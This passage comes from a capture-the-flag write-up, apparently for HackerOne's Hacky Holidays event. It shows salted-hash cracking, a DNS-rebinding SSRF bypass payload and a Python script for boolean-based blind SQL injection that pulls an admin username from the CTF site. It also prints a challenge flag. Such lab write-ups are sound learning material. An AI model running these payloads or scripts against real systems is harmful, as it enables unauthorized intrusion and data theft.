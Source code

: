 It was time to crack the hash to get a hold of the situation. As confirmed by H1 it was indeed a salted hash. I came to the (pretty obvious) conclusion that the target IP was the variable and I tried to  crack the salt using `hashcat`

{F1140048}

Success! We now know the hash is a salted md5($pass.$salt) → [ip].mrgrinch463.
We can now craft whatever payload we want, thus being able to choose the target IP to attack. I quickly tried to use `localhost` in all its shapes and forms but there was an SSRF protection to bypass.
After trying every possible encoding (hex,octa,binary you name it) I stumbled across a common technique known as [DNS rebind](https://en.wikipedia.org/wiki/DNS_rebinding) and an amazing tool [rbndr](https://github.com/taviso/rbndr).
In hindsight, the hint was always there. The fake command-line messages appeared in succession and a better eye would have spotted the vulnerability right away. We basically exploit the fact that the remote host lookup and then the actual attack occur in two separate time frames. This is ideal for [TOCTOU attacks](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use). 

I finally got a working payload that looks like this: 
```javascript
{"target":"cb007121.7f000001.rbndr.us","hash":"aa9c061c933f709acb4d69329bc7b1af"}
```
The host lookup is not gonna fail since that domain instantly resolved to a valid public IP (I used one of Santa's, hope he doesn't mind) but a short TTL allows it to resolve to `127.0.0.1` shortly after.

The grinch is defeated as the page we're redirected to show us.

{F1140049}

I can now go back to finishing my discussion with Gandhi and Muhammad Ali, I left them hanging. Peace✌️

`flag{07a03135-9778-4dee-a83c-7ec330728e72}`

Flag9 - Evil Quiz
---------------------
I hate giving this challenge attention but here we go. I say that because for the longest time I thought it was a time-based blind SQLi using the `name` param. So yeah I'm pissed at myself for being slow and wasting a lot of time on it (the server was slow too at times so can we have a 50/50?). Having solved flag11 before flag9 allowed me to pretty much speedrun through this one though. The idea here is very similar and all I had to do was change the script from flag11 and craft a new payload for what I now know is a **BOOLEAN-BASED BLIND SQLi**.  Here it is:

```python
import requests
import re
from string import printable

base_username=''
base_password='s3cret\_p4ssw0rd-'

headers= { "Content-Type" : "application/x-www-form-urlencoded" }
cookies= { "session" : "fa3c1dba251b1de924de64d2322c446f" }

def search_username(username):    
    for c in printable:
        if c == '_' or c == '%':
            c = "\\" + c
        post_data = { "name" : "admin' and EXISTS (SELECT * FROM admin WHERE username LIKE '{}{}%') -- -".format(username,c) } 
        r=requests.post('https://hackyholidays.h1ctf.com/evil-quiz', data = post_data, headers=headers, cookies=cookies)
        r2=requests.get('https://hackyholidays.h1ctf.com/evil-quiz/score', cookies=cookies)
        if r2.text.find("is 0 other player(s)") == -1:
            username += c
            print("new char found: " +username)
            search_username(username)
```